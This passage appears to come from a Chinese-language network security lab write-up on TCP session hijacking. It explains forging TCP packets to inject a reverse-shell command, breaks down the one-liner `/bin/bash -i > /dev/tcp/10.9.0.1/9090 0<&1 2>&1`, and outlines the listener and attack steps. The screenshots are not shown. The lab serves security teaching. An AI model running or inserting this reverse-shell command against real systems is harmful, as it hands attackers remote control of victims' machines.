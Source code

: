 这段代码通过伪造 TCP 数据包，试图向目标主机注入一个反向 Shell 命令，从而建立一个攻击者控制的连接。

攻击成功后，攻击者可以获得目标主机的 Shell 访问权限，执行任意命令。

关于`/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1` 这条指令：

- `> /dev/tcp/10.9.0.1/9090` 这是一个特殊的文件重定向，它利用Linux的伪文件系统将Shell的标准输出（`>`符号）重定向到一个TCP连接。
- `0<&1`：将标准输入（文件描述符`0`）重定向为标准输出（文件描述符`1`），让Shell的输入从远程主机接收
- `2>&1`：将标准错误（文件描述符`2`）重定向到标准输出（文件描述符`1`），将所有错误信息也发送到远程主机。
- 整个指令的目的是让目标主机的 Shell 会话通过 TCP 连接发送至攻击者主机的`10.9.0.1:9090`端口，同时接收来自攻击者的指令，实现远程Shell控制。

接下来在 $attacker$ 上开启监听：

![4-1](../image/4-1.png)

让 $user1$ 连接上 $victim$ :

![3-1](../image/3-1.png)

在 $attacker$ 上运行 `reverseshell.py`：

![4-2](../image/4-2.png)
